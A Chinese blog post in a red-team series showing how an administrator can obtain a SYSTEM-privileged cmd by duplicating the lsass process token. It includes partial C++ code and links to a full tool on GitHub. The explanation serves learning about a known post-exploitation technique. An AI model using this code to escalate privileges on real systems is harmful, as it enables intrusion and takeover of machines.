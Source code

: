 ```yaml
---
layout:     post
title:    技巧-获得一个system权限的cmd
subtitle:   域内组策略有关学习
date:       2020-03-16
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 技巧
    - 红队
    
    
---
```

# 技巧-获得一个system权限的cmd

## 简介
这里前提是已经获得了管理员权限。  
常用的方法是：  
- 创建服务
- token复制  

这里主要是想讲后者，且自己去实现这个过程。  


## 思路
先找到windows进程中以system权限启动的进程，这里以lsass为例子。  
首先需要获取到lsass的token，用到函数OpenProcessToken()。  
```
BOOL OpenProcessToken(
  HANDLE  ProcessHandle,
  DWORD   DesiredAccess,
  PHANDLE TokenHandle
);
```
主要是第二个参数，我们需要查询，访问，复制token，添加到别的进程，需要填入的参数是  
```
TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY | TOKEN_IMPERSONATE | TOKEN_DUPLICATE 
```  
具体的可以看官方文档。  
[https://docs.microsoft.com/zh-cn/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocesstoken](https://docs.microsoft.com/zh-cn/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocesstoken)  
[https://docs.microsoft.com/zh-tw/windows/win32/secauthz/access-rights-for-access-token-objects](https://docs.microsoft.com/zh-tw/windows/win32/secauthz/access-rights-for-access-token-objects)

然后通过DuplicateTokenEx函数复制创建一个新的主令牌。  
然后通过CreateProcessWithTokenW基于获得的token运行cmd。  
贴出部分代码：  
```
HANDLE GetProcessToken(DWORD Pid)
{
	HANDLE Pstoken = {};
	
	if (!OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, Pid)) {
		cout << "OpenProcess ERROR " << endl;
		return (HANDLE)NULL;
	}
	if (!OpenProcessToken(OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, Pid), TOKEN_ASSIGN_PRIMARY | TOKEN_DUPLICATE | TOKEN_IMPERSONATE | TOKEN_QUERY, &Pstoken)) {
		cout << "OpenProcessToken ERRO "<< endl;
		return (HANDLE)NULL;
	}
	return Pstoken;
}

void Run(HANDLE Token) {
	if (!DuplicateTokenEx(Token, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TokenPrimary, &Token)) {
		cout << "DuplicateTokenEx ERROR " << endl;
	}
	STARTUPINFOW si = {};
	PROCESS_INFORMATION pi = {};
	BOOL ret;
	ret = CreateProcessWithTokenW(Token, LOGON_NETCREDENTIALS_ONLY, L"C:\\Windows\\System32\\cmd.exe", NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);
	if (!ret) {
		cout << "CreateProcessWithTokenW ERROR" << endl;
	}
}
```
具体代码放到github上。   
## 运行
编译出来运行，以管理员权限运行。  
![200316_1](/img/200316_cmd.png)  

## 拓展
具体的情景还可以修改启动的程序，修改复制的token，以不同的token去运行不同的程序，达到升降权的目的。  

## github
[https://github.com/hmoytx/ttttokencmd/](https://github.com/hmoytx/ttttokencmd/)  

## 参考
[https://422926799.github.io/posts/44f47c5e.html](https://422926799.github.io/posts/44f47c5e.html)  
[https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E4%BB%8EAdmin%E6%9D%83%E9%99%90%E5%88%87%E6%8D%A2%E5%88%B0System%E6%9D%83%E9%99%90/](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E4%BB%8EAdmin%E6%9D%83%E9%99%90%E5%88%87%E6%8D%A2%E5%88%B0System%E6%9D%83%E9%99%90/)  